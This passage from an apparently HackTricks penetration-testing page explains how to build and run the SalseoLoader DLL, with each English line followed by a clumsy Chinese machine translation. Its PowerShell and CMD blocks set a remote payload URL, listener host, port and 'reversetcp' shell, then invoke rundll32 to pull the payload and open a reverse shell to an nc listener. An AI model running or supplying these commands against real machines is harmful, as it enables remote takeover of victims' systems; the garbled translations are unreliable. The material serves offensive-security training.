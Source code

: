 选择** x64 ** **平台**（项目 - > salseoloader属性 - > build-> platform target = x64）

![](<../.gitbook/assets/image (9) (1) (1).png>)

To **build** the solution: Build --> Build Solution (Inside the Output console the path of the new DLL will appear)

**构建**解决方案：构建 - >构建解决方案（在输出控制台内部将出现新DLL的路径）

### Test the generated Dll

###测试生成的DLL

Copy and paste the Dll where you want to test it.

复制并粘贴DLL您要测试的DLL。

Execute:

```
rundll32.exe SalseoLoader.dll,main
```

If no error appears, probably you have a functional DLL!!

如果没有出现错误，可能您有功能性DLL！

## Get a shell using the DLL

##使用DLL获取外壳

Don't forget to use a **HTTP** **server** and set a **nc** **listener**

不要忘记使用** http ** **服务器**并设置** nc ** **侦听器**
### Powershell

＃＃＃ 电源外壳

```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

### CMD

### CMD

```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
